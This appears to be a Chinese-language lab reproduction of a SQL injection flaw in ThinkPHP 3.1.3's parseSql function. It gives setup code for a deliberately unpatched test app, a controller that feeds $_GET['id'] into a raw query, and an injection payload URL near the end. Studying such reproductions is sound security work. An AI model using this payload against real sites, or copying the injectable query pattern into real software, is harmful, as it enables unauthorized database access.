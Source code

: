Thinkphp 3.1.3 sql注入漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 3.1.3

三、复现过程
------------

首先在网上下载对应的压缩包。

漏洞位于`ThinkPHP/Lib/Core/Model.class.php` 文件的parseSql函数

将这一条修复语句注释后开始一步步复现

![1.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId24.png)

在ThinkPHP目录下创建app文件夹后创建index.php

![2.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId25.png)

访问相应页面，显示这个则说明成功。

![3.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId26.png)

成功后app文件夹下会生成工程文件

![4.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId27.png)

然后开始配置数据库(在app/conf/config.php下配置)

    <?php
    return array(
        //'配置项'=>'配置值'
    // 添加数据库配置信息
    'DB_TYPE'   => 'mysql', // 数据库类型
    'DB_HOST'   => 'localhost', // 服务器地址
    'DB_NAME'   => 'security', // 数据库名
    'DB_USER'   => 'root', // 用户名
    'DB_PWD'    => 'root', // 密码
    'DB_PORT'   => 3306, // 端口
    'DB_PREFIX' => 'think_', // 数据库表前缀
    );
    ?>

下一步开始为模块定义一个控制器类:`IndexAction.class.php`。命名规范（模块名+Action.class.php）

    <?php
    // 本类由系统自动生成，仅供测试用途
    class IndexAction extends Action {
        public function index(){
          //$this->name = 'thinkphp'; // 进行模板变量赋值
          //$this->display();
            
        $Data = M('Data'); // 实例化Data数据模型
        $this->data = $Data->select();
        $this->display();
        
        $model=M('think_data');
        $m=$model->query('select * from think_data where id="%s"',array($_GET['id']));
        dump($m);exit;
        }
        
    }

创建视图：在`./Tpl`下创建`Index/index.html`

    <html>
     <head>
       <title></title>
     </head>
     <body>
        //<p>hello, {$name}!</p>
        <volist name="data" id="vo">
        {$vo.id}--{$vo.data}<br/>
        </volist>
     </body>
    </html>

> 在浏览器访问

`https://www.0-sec.org:9090/ThinkPHP_3.1.3_full/ThinkPHP/app/`

![5.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId28.png)

`https://www.0-sec.org:9090/ThinkPHP_3.1.3_full/ThinkPHP/app/?id=1" or 1 –`

![6.png](./.resource/Thinkphp3.1.3sql注入漏洞/media/rId29.png)

复现结束

参考连接
--------

> https://www.freesion.com/article/3289785672/
